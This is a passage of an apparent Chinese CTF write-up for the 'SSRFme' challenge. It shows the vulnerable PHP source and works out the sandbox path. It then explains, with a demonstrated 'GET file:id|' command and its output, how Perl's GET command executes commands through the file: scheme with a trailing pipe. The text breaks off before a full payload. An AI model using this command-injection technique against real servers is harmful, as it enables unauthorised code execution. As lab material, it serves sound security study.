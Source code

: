 <br>

***

<br>

# [perlGET命令执行]SSRFme

开局给源码

```php
10.244.80.206 
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]); //filename传入一个文件的完整路径
// pathinfo的返回值中, $info["dirname"]为上级目录,$info["basename"]为文件名
    $dir  = str_replace(".", "", basename($info["dirname"]));
//basename($info["dirname"])返回上一级目录的名称 如果$_GET["filename"]为 /var/www/html/index,php,则这里为html
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data); //将data写入$_GET["filename"]指定的文件中
    highlight_file(__FILE__);
```

这里可以先根据给出的IP和'orange'一起计算md5,得到`$sandbox`的路径

```
md5(orange10.244.80.206) = 2eeed2f9aeae6311b507ada8fb98809e
sandbox/2eeed2f9aeae6311b507ada8fb98809e
```



**这里的考点是`perl`的`GET`命令的命令执行漏洞, `GET`底层调用了`open`,而`open`支持`file协议`,可以通过`file`协议来执行命令,(尾部需要有管道符)但前提是同目录下要存在一个和要执行的命令同名的文件. 例如:**

```
➜  test GET 'file:id|'
➜  test touch 'id|'
➜  test GET 'file:id|'
uid=1000(moxiaoxi) gid=1000(moxiaoxi) groups=1000(moxiaoxi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
这里在目录下创建了一个名为"id|"的文件之后, 使用GET 'file:id|'就能够成功地执行命令了
```
